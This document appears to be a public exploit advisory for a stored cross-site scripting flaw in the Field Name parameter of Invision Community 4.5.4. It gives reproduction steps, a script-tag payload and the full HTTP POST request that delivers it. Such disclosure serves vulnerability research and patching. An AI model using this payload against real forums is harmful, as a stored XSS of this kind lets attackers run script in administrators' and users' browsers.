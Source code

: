 # Exploit Title: Invision Community 4.5.4 - 'Field Name' Stored Cross-Site Scripting
## Exploit Author: Hemant Patidar (HemantSolo)
## Vendor Homepage: https://invisioncommunity.com/
## Software Link: https://invisioncommunity.com/buy
## Version: 4.5.4
## Tested on: Windows 10 PHP 5.4.5 Apache 2.4.23


 
1. Go to the Invision Community admin page.
2. Now go to the Members - MEMBER SETTINGS - Profiles.
3. Now click on Add Profile field.
4. Put the below payload in Field Name:
"<script>alert(123)</script>"
5. Now click on Save button.
6. The XSS will be triggered.
 
 Vulnerable Parameters: Field Name.
 
 ```
POST /admin/?app=core&module=membersettings&controller=profiles&tab=profilefields&subnode=1&do=form&parent=3&ajaxValidate=1 HTTP/1.1
Host: 127.0.0.1

 
form_new_activeTab=&form_new_submitted=1&csrfKey=3ffc7a5774ddc0d2a7142d2072191efc&MAX_FILE_SIZE=20971520&pf_title%5B1%5D=%3Cscript%3Ealert(123)%3C%2Fscript%3E&pf_desc%5B1%5D=Test&pf_group_id=3&pf_type=Text&pf_allow_attachments=0&pf_allow_attachments_checkbox=1&pf_content%5B0%5D=&pf_multiple=0&pf_max_input=0&pf_input_format=&pf_member_edit=0&pf_member_edit_checkbox=1&radio_pf_member_hide__empty=1&pf_member_hide=all&radio_pf_topic_hide__empty=1&pf_topic_hide=hide&pf_search_type=loose&pf_search_type_on_off=exact&radio_pf_profile_format__empty=1&pf_profile_format=default&pf_profile_format_custom=&radio_pf_format__empty=1&pf_format=default&pf_format_custom=
 
 ```
